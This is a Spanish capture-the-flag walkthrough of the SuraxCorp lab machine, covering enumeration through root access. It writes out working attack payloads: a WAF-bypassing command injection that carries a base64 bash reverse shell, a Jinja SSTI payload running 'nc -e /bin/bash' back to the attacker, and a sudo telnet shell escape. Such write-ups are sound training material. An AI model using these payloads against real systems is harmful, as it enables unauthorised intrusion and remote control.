## Table of contents

## Enumeración

La máquina SuraxCorp tiene la ip **10.0.2.64**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.
```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.64

Nmap scan report for 10.0.2.64
Host is up (0.00021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.67 ((Debian))
|_http-server-header: Apache/2.4.67 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

### Puerto 80 (Web)

Accedemos a la ip de la máquina con el navegador y nos encontramos con la página por defecto de Apache. Tras realizar diferentes enumeraciones no encontramos nada.

### IPv6

Vamos a tratar de obtener la dirección **IPv6** de la máquina. Para ello, enviamos una petición ICMPv6 a la dirección multicast de enlace local `ff02::1` (que agrupa a todos los nodos de la red) a través de la interfaz **eth1**, que es en la que se encuentra la máquina.

```bash
ping6 -c 1 "ff02::1%eth1"
PING ff02::1%eth1 (ff02::1%eth1) 56 data bytes
64 bytes from fe80::3618:9302:5d98:e163%eth1: icmp_seq=1 ttl=64 time=0.077 ms
--- ff02::1%eth1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.077/0.077/0.077/0.000 ms
```

La dirección **IPv6** que nos reporta **ping6** posiblemente corresponda a nuestra máquina. Para obtener la **IPv6** de la máquina víctima, consultamos la tabla de vecinos de IPv6 (el equivalente a la tabla **ARP** en **IPv4**) en nuestra interfaz **eth1**.

```bash
ip -6 neighbor
fe80::b46f:c43b:2931:a528 dev eth1 lladdr 08:00:27:52:a7:bf REACHABLE
```

Podemos observar la dirección **IPv6** `fe80::b46f:c43b:2931:a528`.

Ya tenemos la **IPv6** de la máquina, ahora vamos a emplear **nmap** con ella para ver si nos reporta algún puerto diferente. Tenemos que añadir al final de la ip la interface `%eth1`.

```bash
nmap -6 -sS -p- --open --min-rate 5000 -n -Pn "fe80::b46f:c43b:2931:a528%eth1"
 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-04 03:15 -0400
Nmap scan report for fe80::b46f:c43b:2931:a528
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
873/tcp open  rsync
``` 

Vemos el puerto **873** (**rsync**) abierto.

### Puerto 873 (Rsync)

**Rsync** es una herramienta que se utiliza para copiar y sincronizar archivos y directorios entre dos sistemas, ya sea en local o remoto. 

Vamos a emplear la herramienta **rsync-brute** para tratar de encontrar algún módulo en este servicio, empleando como wordlist el `common.txt`

- https://github.com/VulNyx/Arsenal/tree/main/rsync-brute

```bash
./rsync-brute -t [fe80::b46f:c43b:2931:a528%eth1] -p 873 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
  _ __ ___ _   _ _ __   ___ 
 | '__/ __| | | | '_ \ / __|
 | |  \__ \ |_| | | | | (__ 
 |_|  |___/\__, |_| |_|\___|
  _         |___/  _
 | |__  _ __ _   _| |_ ___  
 | '_ \| '__| | | | __/ _ \ 
 | |_) | |  | |_| | ||  __/ 
 |_.__/|_|   \__,_|\__\___| 
────────────────────────────
 code: VulNyx™  ver: v1.0.0
────────────────────────────
 🎯 Target   | [fe80::b46f:c43b:2931:a528%eth1]:873
 📖 Wordlist | /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 🔎 Status   | 800/4751/16%/backup
 💥 Resource | backup
────────────────────────────
```

Encontramos el módulo **backup**, así que listamos su contenido.

```bash
rsync -av --list-only rsync://[fe80::b46f:c43b:2931:a528%eth1]/backup
receiving incremental file list
drwxrwxrwx          4,096 2026/06/29 08:50:06 .
-rw-r--r--            497 2026/06/29 08:50:06 secure-suracorp.thl.conf

sent 20 bytes  received 84 bytes  208.00 bytes/sec
total size is 497  speedup is 4.78
```

Tenemos un archivo de configuración **secure-suracorp.thl.conf** que nos descargamos a nuestro equipo.

```bash
rsync -avz rsync://[fe80::b46f:c43b:2931:a528%eth1]/backup/secure-suracorp.thl.conf .
```

```bash
cat secure-suracorp.thl.conf
<VirtualHost *:80>
    ServerName secure-suraxcorp.thl
    ServerAlias wwww.secure-suraxcorp.thl
    ServerAdmin webmaster@secure-suraxcorp.thl
    DocumentRoot /var/www/secure-suracorp.thl/

    <Directory /var/www/secure-suracorp.thl/>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/secure-suracorp.thl_error.log
    CustomLog ${APACHE_LOG_DIR}/secure-suracorp.thl_access.log combined
</VirtualHost>
```

## Explotación
### Admin Panel

Se trata de un archivo de configuración de apache en el que vemos el dominio **secure-suraxcorp.thl**, por lo que lo agregamos junto a la ip al **/etc/hosts** y accedemos a él con el navegador.

```bash
echo '10.0.2.64 secure-suraxcorp.thl'| sudo tee -a /etc/hosts
``` 

Tenemos un panel de login pero no disponemos de credenciales.



Vamos a tratar de entrar como el usuario **admin** y sin proporcionar contraseña. Para ello, debemos de eliminar el atributo **required** de la etiqueta input de la password.

Accedemos al apartado Inspector de las Opciones de Desarrollador y lo eliminamos.



Una vez hecho, entramos como **admin** y sin proporcionar contraseña.

### Reversering

Entramos a un dashboard que nos ofrece la opción de descargar un ejecutable para Linux o Windows, nos descargamos la versión de Linux.



Se trata de un archivo **.deb**, es decir, un instalador para Linux. 

Vamos a extraer su contenido empleando **7z** y posteriormente, extraer el contenido del archivo resultante con **tar**.

```bash
7z e surapharm.deb
```

```bash
tar -xf data.tar
```

Esto nos genera un directorio **/usr/bin/** donde encontramos el ejecutable **surapharm**.

Si lo ejecutamos nos aparece el usuario **pharmacist** y nos pide unas credenciales que no tenemos, así que vamos a aplicar reversering con **ghidra** para ver el código del ejecutable.





Encontramos la contraseña **Suraph@rm2024!** y también una parte de un dominio **adminis-** al que se le realiza una petición http por GET.

Para averiguar este domino nos vamos a poner en escucha con **tcpdump** en la interface de red **eth0**.

**Nota:** Aunque tengamos la máquina en la **eth1** tenemos que ver el tráfico de la **eth0**, ya que el ejecutable está diseñado para usar esa interface.

Ahora ejecutamos el **surapharm**, ingresamos con las credenciales **pharmacist:Suraph@rm2024!** y probamos las opciones de la aplicación.

```bash
sudo tcpdump -i eth0

...
10:56:01 IP 192.168.0.11.53432 > 192.168.0.1:  adminis-surapharm.suraxcorp.thl.
...
```

Obtenemos un nuevo subdominio que añadimos al **/etc/hosts** y accedemos a él con el navegador.

```bash
echo '10.0.2.64 adminis-surapharm.suraxcorp.thl' | sudo tee -a /etc/hosts
```

Tenemos un nuevo panel de login.




Ingresamos a él con las credenciales anteriores, **pharmacist:Suraph@rm2024!**

### Command Injection

Nos encontramos otro dashboard pero ahora disponemos de un input que envía trazas **icmp** con **ping** a la ip que especifiquemos, si tratamos de enviar una ip y pipearle un comando recibimos la respuesta de un **WAF**. 

```bash
10.0.2.61|id
```



Este **Web Application Firewall** (**WAF**) filtra aquellas peticiones que poseen un comando, espacios y punto y coma (;), por lo que vamos a tratar de bypasearlo para listar todo el contenido de su directorio.

Entre los caracteres del comando introducimos una barra invertida (\\) y para separar el comando de sus parámetros empleamos la variable de entorno **IFS**.

El comando queda de la siguiente forma:

```bash
10.0.2.61|l\s${IFS}-la
```



Tenemos un **Remote Code Ejecution** (**RCE**), así que vamos a enviarnos una reverse shell.

Primero, creamos una cadena en base64 que contenga nuestra reverse shell.

```bash
echo 'bash -i >& /dev/tcp/10.0.2.61/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuNjEvNDQ0NCAwPiYxCg==
```

Nos ponemos en escucha con **netcat**.

```bash
nc -nlvp 4444
```

Y enviamos la cadena en base64 para que se decodifique y se ejecute por bash, todo ello con el formato anteriormente mencionado para bypassear el **WAF**.

```bash
10.0.2.64|e\cho${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuNjEvNDQ0NCAwPiYxCg==|b\ase64${IFS}-d|b\ash
```

Entramos como **www-data**

## Movimiento Lateral
### Suraxddq

Si listamos los procesos que se están ejecutando vemos que el usuario **suraxddq** está ejecutando una app en python que se encuentra en un directorio llamado **ssti**, pista sobre la vulnerabilidad a explotar.

```bash
www-data@TheHackersLabs-SuraxCorp:/var/www/adminis-surapharm$ ps -faux 
suraxddq     804  0.0  2.8  42684 34792 ?        Ss   15:19   0:00 /usr/bin/python3 /home/suraxddq/ssti/app.py
```

Revisando los puertos abiertos vemos que el puerto 5000 está abierto de forma local, lo que nos da a entender que la app de python se está ejecutando en ese puerto.

```bash
www-data@TheHackersLabs-SuraxCorp:/var/www/adminis-surapharm$ ss -nltp
State             Recv-Q            Send-Q                        Local Address:Port                         Peer Address:Port            Process            
LISTEN            0                 128                               127.0.0.1:5000                              0.0.0.0:*                                  
```

Vamos a aplicar **Port Forwarding** empleando socat para abrir el puerto 4000 de la máquina y redirigir todo el tráfico entrante hacia el servicio interno que corre en el puerto 5000. De esta forma, podremos acceder a la app de python a través del puerto 4000 de la máquina.

Pasamos socat a la máquina y ejecutamos:

```bash
./socat tcp-listen:4000,fork tcp:127.0.0.1:5000 &
```

Accedemos con el navegador al puerto 4000 de la máquina y vemos el contenido de la app.



Para poder habilitar el **Server Side Template Injection** (**SSTI**) debemos de hacer click en **SuraxCorp Event** para que cambie su texto a **Disable STTI**.

Una vez hecho, introducimos operaciones matemáticas de la forma {{2\*2}} o {{4\*4}} en los diferentes inputs. Sí la operación matemática se realiza en alguno de ellos, ese input es vulnerable.

El input **Description** es el vulnerable.



Nos enviamos una nueva reverse shell.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('nc 10.0.2.61 5555 -e /bin/bash').read() }}
```




Volvemos a entrar al server pero ahora como el usuario **suraxddq**.


```bash
suraxddq@TheHackersLabs-SuraxCorp:~$ ls -la
total 76
drwx------ 13 suraxddq suraxddq 4096 Jul 17 14:35 .
drwxr-xr-x  3 root     root     4096 Jun 21 11:03 ..
lrwxrwxrwx  1 suraxddq suraxddq    9 Jul 17 14:35 .bash_history -> /dev/null
-rw-r--r--  1 suraxddq suraxddq  220 Jun 21 11:03 .bash_logout
-rw-r--r--  1 suraxddq suraxddq 3526 Jun 21 11:03 .bashrc
drwx------  8 suraxddq suraxddq 4096 Jul 17 14:41 .cache
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Desktop
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Documents
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Downloads
-rw-r--r--  1 suraxddq suraxddq 5290 Jun 21 11:03 .face
lrwxrwxrwx  1 suraxddq suraxddq    5 Jun 21 11:03 .face.icon -> .face
drwx------  7 suraxddq suraxddq 4096 Jun 30 11:18 .local
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Music
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Pictures
-rw-r--r--  1 suraxddq suraxddq  807 Jun 21 11:03 .profile
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Public
drwxrwxr-x  4 suraxddq suraxddq 4096 Jun 30 17:50 ssti
-rw-r--r--  1 suraxddq suraxddq    0 Jun 30 18:14 .sudo_as_admin_successful
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Templates
-rw-rw-r--  1 suraxddq suraxddq   38 Jun 30 18:33 user.txt
drwxr-xr-x  2 suraxddq suraxddq 4096 Jun 21 11:20 Videos
```

## Escalada de Privilegios
### Root

Revisando los permisos sudoers de nuestro usuario vemos que podemos ejecutar como root sin proporcionar contraseña **telnet**, por lo que vamos a abusar de ello para convertirnos en **root**.

```bash
suraxddq@TheHackersLabs-SuraxCorp:~$ sudo /usr/bin/telnet 
telnet> !/bin/bash

root@TheHackersLabs-SuraxCorp:/home/suraxddq# id
uid=0(root) gid=0(root) groups=0(root)
root@TheHackersLabs-SuraxCorp:/home/suraxddq# ls -la /root
total 40
drwx------  5 root root 4096 Jul 17 14:34 .
drwxr-xr-x 19 root root 4096 Jul 20 16:53 ..
lrwxrwxrwx  1 root root    9 Jul 17 14:34 .bash_history -> /dev/null
-rw-r--r--  1 root root  607 May  8 17:10 .bashrc
drwx------  2 root root 4096 Jun 21 11:06 .cache
drwx------  3 root root 4096 Jun 21 11:34 .local
-rw-r--r--  1 root root  132 May  8 17:10 .profile
-rw-r--r--  1 root root   38 Jun 30 18:32 root.txt
drwx------  2 root root 4096 Jun 21 10:23 .ssh
-r-xr-xr-x  1 root root 7048 Jun 21 11:03 vboxpostinstall.sh
```